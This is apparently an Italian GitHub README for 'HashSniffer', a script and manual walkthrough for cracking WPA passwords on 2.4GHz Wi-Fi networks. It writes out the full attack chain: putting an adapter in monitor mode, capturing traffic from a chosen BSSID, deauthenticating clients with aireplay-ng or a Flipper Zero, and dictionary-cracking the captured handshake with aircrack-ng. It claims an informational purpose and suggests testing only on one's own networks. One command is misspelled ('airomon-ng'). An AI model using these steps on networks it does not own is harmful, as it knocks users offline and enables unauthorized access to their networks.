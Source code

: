 # HASH SNIFFER

Il nostro progetto è stato quello di evidenziare le vulnerabilità di una rete wifi comune a 2.4GHz. Questo progetto nasce solo ed esclusivamente a scopo informativo e vi invitiamo a replicare il progetto con reti create da voi per verificarne le vulnerabilità.

Per seguire questa guida e semplificare i vari comandi di testing, abbiamo creato un tool da eseguire in shell linux. Nella guida troverete sia come usare il tool che i comandi da eseguire manualmente. Ricordiamo inoltre che il tool è completamente source code. Per eseguire seguire la guida è richiesto un OS Linux con [aircrack-ng](https://www.aircrack-ng.org/) installato (su Kali è preinstallato).

## $${\color{aqua}Automated \space script}$$

Iniziamo scaricando la repository in locale:

```bash
$ git clone https://github.com/callmenoway/HashSniffer.git
$ cd HashSniffer
```

Successivamente eseguiamo il tool:

```bash
$ chmod +x hashsniffer.sh
$ ./hashsniffer.sh
```

## $${\color{green}Guida \space manuale}$$

Iniziamo aprendo un terminale e seguendo i seguenti comandi:


```bash
┌(root💀kali)-[~]
│
┕$ iwconfig
```

<div align="center">

<img src="img/1.png" alt="">

</div>

Una volta eseguito il comando ci usciranno tutte le schede internet che possediamo sulla macchina. Per iniziare creiamo una scheda parallela virtuale per iniziare il listening delle reti:


```bash
┌(root💀kali)-[~]
│
┕$ sudo airomon-ng start <SCHEDA DI RETE>
```

<div align="center">

<img src="img/2.png" alt="">

</div>

Successivamente per visualizzare tutte le reti disponibili:


```bash
┌(root💀kali)-[~]
│
┕$ sudo airodump-ng <SCHEDA DI RETE>mon
```

\


<div align="center">

<img src="img/4.png" alt="">

</div>

Tra i risultati dobbiamo copiare il BSSID della rete in questione ed eseguire il comando:

```bash
┌(root💀kali)-[~]
│
┕$ sudo airodump-ng -canale -w NomeFile -d BSSID <SCHEDA DI RETE>mon
```

In questo modo stiamo verificando solo la rete in questione.

## $${\color{green}Deauth \space \color{red} Attack}$$

Una volta che siamo in listening wifi possiamo procedere con il [Deauth Attack](https://en.wikipedia.org/wiki/Wi-Fi\_deauthentication\_attack) (Oggi useremo il Flipper Zero ma ci sono altre alternative come ESP32 Marauder ecc...). Iniziamo facendo una scansione delle reti, selezioniamo la rete in questione e iniziamo l'attacco.

Deauth attack con Flipper Zero:

<div align="center">

<img src="img/flipper.jpg" alt="" width="300">

</div>

Attacco deauth integrato tramite il comando:


```bash
┌(root💀kali)-[~]
│
┕$ sudo aireplay-ng --deauth 0 -a BSSID -c STATION <SCHEDA DI RETE>mon
```

<div align="center">

<img src="img/5.png" alt="">

</div>

## $${\color{white}WPA \space \color{green}handshake \space \color{red}decrypt}$$

Una volta effettuato l'attacco sul terminale linux dovremo trovare un WPA handshake. Se non compare continuiamo l'attacco in modo che il dispositivo si ricolleghi. Una volta trovato il WPA handshake nella cartella locale troveremo dei file "NomeFile" che contengono tutte le informazioni che ci servono sulla rete. Per eseguire la decriptazione della password del wifi necessitiamo di un file che contenga molte password da provare sul file criptato. Per iniziare la decriptazione:


```bash
┌(root💀kali)-[~]
│
┕$ sudo aircrack-ng NomeFile-01.cap -w Password.txt 
```

<div align="center">

<img src="img/6.png" alt="">

</div>

Il tempo di decriptazione può variare in base alla difficoltà della password e dalla lista che viene usata.

## $${\color{orange}Tools}$$

[Flipper Zero](https://flipperzero.one/) accoppiato con [ESP32](https://en.wikipedia.org/wiki/ESP32).\
Deauther fai da te: [Marauder](https://github.com/justcallmekoko/ESP32Marauder).\
Tool usato per condividere lo schermo in rete locale [Live-ScreenShare](https://github.com/callmenoway/Live-ScreenShare)

